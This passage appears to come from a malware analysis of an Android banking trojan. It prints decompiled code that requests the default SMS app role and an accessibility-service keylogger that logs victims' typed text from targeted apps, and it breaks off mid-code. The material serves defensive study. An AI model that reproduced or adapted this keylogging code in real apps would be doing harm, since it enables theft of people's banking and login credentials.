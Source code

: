 ```cs
                ServiceHandler.m().m(null);
                Intent intent0 = new Intent("android.provider.Telephony.ACTION_CHANGE_DEFAULT");
                intent0.putExtra("package", this.getPackageName());
                intent0.addFlags(0x10000000);
                this.startActivity(intent0);
            }
        }
        catch(Exception unused_ex) {
            return;
        }

        this.finish();
    }

```

## Keylogging

The malware has the capabbility to store key strokes of the victim using startkeylogs. This helps to steal the victim's banking credentials or login credentials.

```cs
public void onAccessibilityEvent(AccessibilityEvent accessibilityEvent0) {
        String s1;
        String s;
        AccessibilityNodeInfo accessibilityNodeInfo0;
        if(accessibilityEvent0 != null) {
            try {
                if(accessibilityEvent0.getPackageName() != null) {
                    accessibilityNodeInfo0 = accessibilityEvent0.getSource();
                    if(accessibilityNodeInfo0 == null) {
                        accessibilityNodeInfo0 = this.getRootInActiveWindow();
                        if(accessibilityNodeInfo0 == null) {
                            return;
                        }
                    }

                    accessibilityNodeInfo0.refresh();
                    s = accessibilityEvent0.getPackageName().toString();
                    s1 = this.m(accessibilityEvent0.getEventType());
                    if(this.b == null && !s.equals(this.getPackageName()) && (this.G > 0 || (aa.m().m("sniffer", s)))) {
                        if(this.G > 0) {
                            int v = accessibilityEvent0.getEventType();
                            goto label_46;
                        }

                        goto label_65;
                    }

                    goto label_90;
                }
            }
            catch(Exception unused_ex) {
            }

            return;
        label_46:
            if(v == 16) {
                try {
                    JSONObject jSONObject0 = new JSONObject();
                    jSONObject0.put("logsKeylogger", accessibilityEvent0.getText().toString());
                    jSONObject0.put("package", s);
```